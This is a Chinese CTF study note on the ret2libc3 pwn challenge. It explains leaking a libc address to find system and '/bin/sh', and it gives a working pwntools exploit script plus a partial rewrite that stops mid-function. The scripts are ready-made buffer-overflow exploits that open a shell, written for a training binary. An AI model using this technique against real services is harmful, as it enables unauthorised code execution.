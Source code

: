 
利用的大概流程就是先找一个远程机器已经执行过的函数地址，和本地libc的函数地址对比，得到偏移，继而推出其他函数在远程机器的地址，这样就能调用远程机器的函数了  

一开始用LibcSearcher找不到对应的libc，用这样的方法把本机的32位libc加到库里：  
```bash
cd ~/LibcSearcher/libc-database/
./add /lib/i386-linux-gnu/libc.so.6
```
这样之后再执行官方提供的脚本，就没问题了，脚本如下：  
```python
#!/usr/bin/env python
from pwn import *
from LibcSearcher import LibcSearcher
sh = process('./ret2libc3')

ret2libc3 = ELF('./ret2libc3')

puts_plt = ret2libc3.plt['puts']
libc_start_main_got = ret2libc3.got['__libc_start_main']
main = ret2libc3.symbols['main']

print("leak libc_start_main_got addr and return to main again")
payload = flat(['A' * 112, puts_plt, main, libc_start_main_got])
sh.sendlineafter('Can you find it !?', payload)

print("get the related addr")
libc_start_main_addr = u32(sh.recv()[0:4])
libc = LibcSearcher('__libc_start_main', libc_start_main_addr)
libcbase = libc_start_main_addr - libc.dump('__libc_start_main')
system_addr = libcbase + libc.dump('system')
binsh_addr = libcbase + libc.dump('str_bin_sh')

print("get shell")
payload = flat(['A' * 104, system_addr, 0xdeadbeef, binsh_addr])
sh.sendline(payload)

sh.interactive()
```

自己重写了一遍，如下：  
```python
# coding:utf8
# python3

'''
0000| 0xffffcfac --> 0xf7e1d647 (<__libc_start_main+247>:	add    esp,0x10)
0000| 0xffffcf20 --> 0xffffcf3c ('hello')

0x70
'''

from pwn import *
from LibcSearcher import *

exe = ELF('ret2libc3')

context.binary = exe

puts_plt = exe.plt['puts']
start_symbol = exe.symbols['_start']
puts_got = exe.got['puts']


def conn():
    if args.REMOTE:
        return remote('addr', 1337)
```